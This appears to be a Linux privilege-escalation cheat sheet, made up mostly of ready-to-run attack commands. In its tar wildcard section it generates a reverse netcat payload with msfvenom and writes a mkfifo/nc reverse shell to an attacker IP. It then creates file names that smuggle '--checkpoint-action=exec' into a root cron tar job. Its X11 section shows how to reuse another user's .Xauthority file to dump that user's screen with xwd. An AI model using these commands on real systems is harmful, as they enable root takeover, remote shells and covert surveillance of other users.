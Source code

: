 ## TAR Wildcards

In case of CRON like  
`*/1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*`

Payload generation
```sh
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.10 lport=8888 R
```

```sh
echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

## XAuthority / X11 dump

If you have access to the .Xauthority from another user

- Set it for your current user

```bash
XAUTHORITY=/tmp/.Xauthority
export XAUTHORITY
xauth list
```

- Check who is connected

```bash
w

USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Fri06    2days  5:38   0.14s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

- Dump his screen

```bash
xwd -root -screen -silent -display :0 -out dump
```

```bash
-display display
    This argument allows you to specify the server to connect to; see x(7).
-out file
    This argument allows the user to explicitly specify the output file on the command line. The default is to output to standard out.
-root
    This option indicates that the root window should be selected for the window dump, without requiring the user to select a window with the pointer.
-screen
    This option indicates that the GetImage request used to obtain the image should be done on the root window, rather than directly on the specified window. In this way, you can obtain pieces of other windows that overlap the specified window, and more importantly, you can capture menus or other popups that are independent windows but appear over the specified window.
-silent
    Operate silently, i.e. don't ring any bells before and after dumping the window.
```
